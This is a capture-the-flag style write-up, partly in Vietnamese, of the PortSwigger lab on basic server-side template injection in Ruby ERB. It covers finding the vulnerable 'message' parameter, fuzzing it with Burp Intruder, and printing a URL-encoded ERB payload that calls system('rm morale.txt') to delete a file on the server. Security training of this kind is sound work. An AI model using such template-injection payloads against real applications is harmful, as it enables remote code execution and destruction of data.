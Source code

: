 # [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)
**Lab Solved**
## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

## Analysis

Sau một lượt lướt qua trang web thì không thấy có chức năng gì đặc biệt, chỉ có user input ở url `...web-security-academy.net/product?productId=2` thì đã thử nhưng không có gì.

Nhưng khi ấn vào product thứ nhất thì thấy một user input nữa:
![fccef886f14b18ad0790d35844f098b8.png](../../../../../../_resources/fccef886f14b18ad0790d35844f098b8.png)

## Exploit

Dùng intruder với fuzz có sẵn của burp pro:
- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: 
![c3164dd22d915f199338dfa30a035959.png](../../../../../../_resources/c3164dd22d915f199338dfa30a035959.png)
- Kết quả:
![8276af2aa9968c7a40c4635f142cd8a6.png](../../../../../../_resources/8276af2aa9968c7a40c4635f142cd8a6.png)

Lục lọi google kiếm payload: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby
```
GET /?message=%3c%25%3dsystem(%22rm+morale.txt%22)%25%3e HTTP/1.1
```

## References
ruby
erb: https://docs.ruby-lang.org/en/2.3.0/ERB.html


